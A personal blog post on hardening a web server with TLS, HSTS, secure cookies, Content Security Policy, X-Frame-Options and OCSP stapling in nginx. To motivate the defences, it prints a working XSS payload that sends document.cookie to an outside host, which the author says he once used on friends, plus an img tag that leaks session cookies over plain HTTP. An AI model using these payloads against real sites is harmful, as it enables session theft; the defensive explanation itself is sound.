 {"title": "Deploy SSL or die"}

*Update: [Let's Encrypt](https://letsencrypt.org/) offers free of charge TLS certificates.*

Few excuses remain not to deploy SSL on your HTTP server. Especially if
your server receives sensitive data over the internet.

For a few dollars a year you can tell your customers you care about 
security. Tell them to look for the padlock.

I acquired an SSL certificate from [StartSSL](https://www.startssl.com/) and
installed it on this blog. StartSSL is the only trusted CA which offers free SSL
certificates. **It's only free for non-commercial usage.** I don't really 
need SSL here, but hey it's free and I want to learn how to setup nginx with SSL.

Here is a minimal config for nginx;

    server {
        listen       8081;
        server_name jekyll.local;
        root /home/dag/projects/my-awesome-site/_site;
        ssl                  on;
        ssl_certificate      /home/dag/vikan-tls/certs/ca-chain.cert.pem;
        ssl_certificate_key  /home/dag/vikan-tls/private/jekyll.key.pem;
    }

[konklone](https://konklone.com/post/switch-to-https-now-for-free)
has a nice step-by-step guide for getting a certificate and setting it up.
Read mozilla's [TLS wiki](https://wiki.mozilla.org/Security/Server_Side_TLS)
for recommended server configuration.

## Tame the browser

![]({{ site.url }}/blogimages/blackhole01.jpg)

The browser is like a giant black hole that sucks in all code it can get. And
executes it. It is a very nice platform for distributing viruses. It must me 
constrained and tamed. 

Do not only put login form over SSL. Eavesdroppers can sniff session
cookies. In the past, facebook put only login
form over SSL by default. A tool called [Firesheep](https://en.wikipedia.org/wiki/Firesheep)
exploited this. An active attacker can inject content into
non-SSL elements. A nasty example is changing form action url to non SSL.
Or javascript code which grabs the password on form submission.

Consider instructing browsers to disallow HTTP
requests. This can be done with the [HSTS](https://www.chromium.org/hsts/) header:

    # go to SSL version next time please
    add_header Strict-Transport-Security "max-age=15768000;";

The HSTS header tells your browser to not allow HTTP without SSL. Check out 
the [SSL stripping attack](http://www.thoughtcrime.org/software/sslstrip/)
for details. It is 
[deadly](https://www.blackhat.com/presentations/bh-dc-09/Marlinspike/BlackHat-DC-09-Marlinspike-Defeating-SSL.pdf).
The HSTS header does not prevent SSL stripping if the browser is seeing the 
header for the first time.

Requests towards port 80 should toss back a redirect to https. 

If you are going to use cookies then set the secure flag to prevent them
from leaking from HTTPS over to HTTP. Older clients do not have HSTS.
This is for them.

Here is an example which leaks the session cookie on facebook.

    <img src="http://www.facebook.com/LEAK-COOKIES-PLEASE">

Turns out facebook has neither HSTS or secure cookies. They do default
to SSL though.


## XSS shall not pass!

Back in the day when I was stealing cookies from my friends I would 
instruct their browser to do this;

    <script>new Image().src='http://dvikan.no/?c='+document.cookie</script>

[Content Security Policy](https://developer.mozilla.org/en-US/docs/Security/CSP/Introducing_Content_Security_Policy)
can prevent these kinds of data extraction. It is not first line of defense 
but defense indepth. Here is an example that instructs browser to only 
allow image references to itself;

    Content-Security-Policy: img-src 'self'

It is pretty clever.

## Clickjacking pepperspray

Clickjacking is when you click an element and the click is highjacked. Actually
you clicked an iframe with a facebook like button for Justin Bieber's fan page.

There is an HTTP header for disallowing a website to be inside an iframe. 
This is how you do it:

    add_header X-Frame-Options DENY;

## OCSP Stapling

For faster TLS handshakes, piggyback the OCSP response onto server reply.
This does not reduce security because the OCSP response is signed anyway.

    resolver 8.8.8.8;
    ssl_stapling on;

## Forward secrecy

Keeps historic traffic data safe. A future compromise of the private key
will not enable decryption of traffic data.

## Dessert

SSL is old. It is from 1995. We should migrate over to the modern term TLS.

This TLS business is all fun and games until you realize that

> Cryptography is typically bypassed, not penetrated. -- Adi Shamir

Remember that users will pick `hunter2` as their password if they
are allowed.

Also remember that the visited domain name is plaintext for an eavesdropper.
It is sent in both the actual certificate and via SNI.

